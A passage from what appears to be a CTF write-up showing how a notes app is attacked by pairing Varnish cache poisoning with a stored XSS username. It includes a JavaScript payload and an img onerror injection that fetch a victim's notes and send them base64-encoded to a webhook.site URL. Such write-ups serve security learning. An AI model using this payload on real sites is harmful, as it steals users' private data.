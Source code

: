 ### Caching
> From here on, this writeup was written after the CTF concluded

If you remember from at the start of the writeup, the Varnish configuration outlined that there will be `max-age=10` caching for URLs ending in `.js`, `.css`, `.png` or `.gif`. 
```
sub vcl_backend_response {
    if (bereq.url ~ "\.(js|css|png|gif)$") {
        unset beresp.http.Vary;
        set beresp.ttl = 10s;
        set beresp.http.Cache-Control = "max-age=10";
        unset beresp.http.Pragma;
        unset beresp.http.Expires;
    }
}
```

Now as the `long` view is the default for any input set in the `view_type` portion of the URL, could we:
- Make an XSS payload to retrieve the contents of `/api/notes` for the current user and exfiltrate it to a webhook.site URL.
- Make a user with that payload as their username and create a note.
- Visit the note with the `view_type` rendered as `long`, making sure the endpoint ends in `.js`, `.css`, `.png` or `.gif`, such as `/note/<id>/long.js` or `/note/<id>/long?example.png` and setup cache poisoning.
- Send the URL to the bot to retrieve the poisoned cache and trigger the payload?

### Stringing it all together
Let's create the payload in JS:
```javascript
fetch('/api/notes').then(r => r.json()).then(data => {
    const encoded = btoa(JSON.stringify(data));
    fetch('https://webhook.site/...?data=' + encoded)
})
```

This will retrieve the contents of `/api/notes` and send the base64 encoded data to our webhook.site instance.

We can then put that in a XSS payload, I use `img` with `onerror` and an invalid `src`:
```html
<img src="x" onerror="fetch('/api/notes').then(r=>r.json()).then(data=>{const encoded=btoa(JSON.stringify(data));fetch('https://webhook.site/...?data='+encoded)})">
```

We first:
- Register a user with that payload as the username.
- Login as that user!

Now we create an example note, the content doesn't matter.

Now we take that URL: `https://.../note/166552770206/short` and change the ending to validate that caching rule and return the long view, in my case I use `https://.../note/166552770206/long.js` which caches the response for 10 seconds.

